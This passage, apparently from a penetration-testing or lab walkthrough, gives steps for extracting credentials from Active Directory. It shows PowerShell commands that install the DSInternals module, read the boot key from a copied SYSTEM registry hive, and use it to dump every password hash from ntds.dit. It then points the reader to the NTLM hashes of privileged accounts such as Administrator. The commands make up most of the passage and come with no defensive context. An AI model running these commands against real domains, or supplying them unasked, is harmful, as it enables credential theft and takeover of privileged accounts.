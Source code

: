 2. **Extract the Boot Key:**

   * Open PowerShell and run the following commands to install the **DSInternals** module and extract the boot key:

```powershell
C:\Windows\system32> powershell
PS C:\Windows\system32> Install-Module DSInternals -Force

PS C:\Windows\system32> $Key = Get-BootKey -SystemHiveFilePath C:\Files\registry\SYSTEM
```

* The **Get-BootKey** command reads the **SYSTEM** hive to retrieve the boot key needed to decrypt **ntds.dit**.
* Ensure that the path to the **SYSTEM** file is correct.

![Boot Key Extraction](/assets/image-23.png)

3. **Extract Password Hashes:**

   * With the boot key extracted, run the following command to dump all password hashes from the **ntds.dit** file:

```powershell
PS C:\Windows\system32> Get-ADDBAccount -All -Bootkey $Key -DBPath 'C:\Files\Active Directory\ntds.dit'
```

* This command retrieves all stored password hashes from the **ntds.dit** file.
* Look for the **NTLM** hashes of high-privilege accounts, such as the **Administrator**.

![NTLM Hash Extraction](/assets/image-24.png)